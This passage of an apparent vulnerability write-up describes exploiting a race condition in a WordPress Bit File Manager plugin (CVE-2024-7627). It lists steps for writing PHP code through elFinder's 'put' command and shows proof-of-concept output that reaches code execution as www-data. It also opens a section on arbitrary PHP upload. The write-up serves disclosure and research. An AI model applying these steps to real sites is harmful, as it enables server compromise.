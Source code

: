 1. Get a valid nonce in from shortcode page/post
2. Keep editing a random file via elFinder command `put` with content that contains `<?php` and whatever PHP code we want to execute
3. Keep accessing the temporary file at path `wp-content/uploads/file-managertemp.php`
4. Profit!

To automate the above steps, I published a Proof-of-Concept Python script on my GitHub repository [CVE-2024-7627 PoC](https://github.com/siunam321/CVE-2024-7627-PoC):

```shell
└> python3 poc.py
[*] Getting a valid AJAX nonce...
[+] Found the valid AJAX nonce: f3128b289e
[*] Getting a random file's hash via elFinder command "open"...
[+] Found file "wp-config-sample.php" with hash "l1_d3AtY29uZmlnLXNhbXBsZS5waHA"!
[*] Editing file with hash "l1_d3AtY29uZmlnLXNhbXBsZS5waHA" via elFinder command "put" and getting the edited temporary PHP file at "http://localhost/wp-content/uploads/file-managertemp.php"...
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[-] Failed to read the edited temporary PHP file in time
[+] We won the race condition! Here's the PHP payload result:
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
8d3b2776e8a6
```

## Arbitrary File Upload

### Flawed/Missing MIME Type Checking - [Bit File Manager](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/file-manager/bit-file-manager-100-free-open-source-file-manager-and-code-editor-for-wordpress-655-authenticated-subscriber-arbitrary-file-upload)

After reporting that vulnerability, it's also time to find another vulnerability! Since elFinder has command "[upload](https://github.com/Studio-42/elFinder/wiki/Client-Server-API-2.1#upload)", we can try to upload PHP files!
